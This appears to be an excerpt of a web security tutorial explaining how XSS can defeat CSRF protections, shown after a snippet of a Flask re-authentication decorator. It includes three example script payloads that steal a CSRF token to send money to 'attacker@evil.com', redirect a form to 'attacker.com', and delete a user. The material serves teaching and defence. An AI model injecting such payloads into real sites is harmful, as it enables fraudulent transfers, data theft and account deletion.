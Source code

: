 ```python
    return decorator

@app.route('/transfer', methods=['POST'])
@require_recent_auth(max_age_minutes=5)  # Require auth within 5 minutes
def transfer_money():
    # Process transfer
    return "Transfer successful"
```

## Combined XSS and CSRF Attacks

### How XSS Enables CSRF

XSS can be used to bypass CSRF protections by executing malicious JavaScript within the target application.

#### 1. **XSS to Bypass CSRF Tokens**
```html
<!-- XSS payload that steals CSRF token and performs CSRF attack -->
<script>
    // Steal CSRF token from form
    const csrfToken = document.querySelector('input[name="csrf_token"]').value;
    
    // Perform CSRF attack with stolen token
    fetch('/transfer', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: `csrf_token=${csrfToken}&recipient=attacker@evil.com&amount=1000`
    });
</script>
```

#### 2. **XSS to Modify Forms**
```html
<!-- XSS payload that modifies form action -->
<script>
    // Change form action to attacker's site
    document.querySelector('form').action = 'https://attacker.com/steal-data';
    
    // Or modify form data
    document.querySelector('input[name="amount"]').value = '999999';
</script>
```

#### 3. **XSS to Bypass SameSite Cookies**
```html
<!-- XSS payload that bypasses SameSite protection -->
<script>
    // Since XSS runs in same origin, SameSite cookies are included
    fetch('/admin/delete-user', {
        method: 'POST',
        body: 'user_id=victim'
    });
</script>
```
